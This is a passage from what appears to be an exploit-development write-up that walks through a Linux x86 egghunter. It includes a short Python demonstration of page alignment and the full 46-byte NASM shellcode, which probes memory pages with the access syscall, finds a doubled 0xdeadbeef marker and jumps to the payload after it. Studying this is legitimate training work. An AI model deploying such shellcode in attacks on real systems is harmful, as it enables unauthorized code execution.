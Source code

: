 ```shell_session
>>> int(100 | 0xfff)
4095
>>> int(4094 | 0xfff)
4095
>>> int(5000 | 0xfff)
8191
```

As the desired effect is to always move to the **start** of the next page, this ensures that the starting byte always moves to the closest page; as opposed to the end of a page.

The end result of the research and the aforementioned problem solving is the below shellcode, weighing in at 46 bytes:

```nasm
global _start

section .text
  _start:
    ; clear the required registers and store the egg
    xor   ebx, ebx
    xor   ecx, ecx
    xor   edx, edx
    mov   esi, 0xdeadbeef

  move_to_next_page:
    ; move $edx forward 4095 bytes
    or    dx, 0xfff

  test_next_byte:
    ; load the next byte
    inc   edx

    ; check if the next 8 bytes of memory are accessible
    xor   eax, eax
    mov   al, 0x21
    lea   ebx, [edx + 0x8]
    int   0x80

    ; if the result is EFAULT, the memory
    ; can't be accessed. Move to the next page.
    cmp   al, 0xf2
    je    short move_to_next_page

    ; if the jump wasn't made, the memory
    ; can be accessed. Check if the value
    ; it points to contains the egg.
    cmp   [edx], esi
    jnz   short test_next_byte

    ; if an instance of the egg was found
    ; check if it is appears in the next
    ; dword. If it does, it is a match.
    lea   ebx, [edx + 0x4]
    cmp   [ebx], esi
    jnz   short test_next_byte

    ; if a second instance of the egg was
    ; found, we've found the shellcode and
    ; can execute it.
    lea   edx, [ebx + 0x4]
    jmp   edx
```
